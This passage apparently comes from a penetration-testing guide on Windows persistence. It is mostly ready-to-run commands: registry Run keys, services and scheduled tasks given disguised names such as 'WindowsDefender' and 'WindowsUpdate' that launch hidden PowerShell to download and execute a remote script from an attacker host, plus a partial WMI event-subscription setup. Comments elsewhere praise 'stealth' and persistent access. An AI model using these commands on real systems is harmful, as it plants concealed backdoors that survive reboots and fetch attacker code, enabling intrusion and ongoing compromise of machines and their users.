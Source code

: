 ```bash
source ~/.bashrc

# Advanced shell features
# Command history manipulation
export HISTSIZE=10000
export HISTFILESIZE=10000
export HISTCONTROL=ignoredups:erasedups

# Shell completion enhancement
if [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
fi

# Why advanced shell upgrades are valuable:
# - Provides persistent, legitimate access methods
# - Enhances operational capabilities
# - Improves stealth through normal tool usage
# - Enables complex multi-session scenarios
# - Supports advanced penetration testing workflows
```

## Persistence Mechanisms

### **Windows Persistence Techniques**

**What Windows persistence involves:** Maintaining access to Windows systems through various autostart mechanisms, service installations, and scheduled tasks that survive reboots and user logouts.

```bash
# Registry-based persistence
# Current User autorun
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate" /t REG_SZ /d "powershell -WindowStyle Hidden -c \"IEX(New-Object Net.WebClient).downloadString('http://192.168.1.5/shell.ps1')\""

# Local Machine autorun (requires admin)
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "WindowsDefender" /t REG_SZ /d "C:\Windows\System32\shell.exe"

# Service-based persistence
# Create Windows service
sc create "SecurityService" binpath= "C:\Windows\System32\shell.exe" start= auto DisplayName= "Windows Security Service"
sc description "SecurityService" "Provides enhanced security monitoring for Windows systems"
sc start "SecurityService"

# Scheduled task persistence
# Create scheduled task to run at logon
schtasks /create /tn "SystemOptimizer" /tr "powershell -WindowStyle Hidden -c \"IEX(New-Object Net.WebClient).downloadString('http://192.168.1.5/shell.ps1')\"" /sc onlogon /ru "System" /f

# Create scheduled task to run periodically
schtasks /create /tn "WindowsUpdate" /tr "C:\Windows\System32\shell.exe" /sc minute /mo 30 /ru "System" /f

# WMI event subscription persistence
# Create WMI event filter
$filter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{
    Name="ProcessFilter";
    EventNameSpace="root\cimv2";
    QueryLanguage="WQL";
    Query="SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName='explorer.exe'"
}
```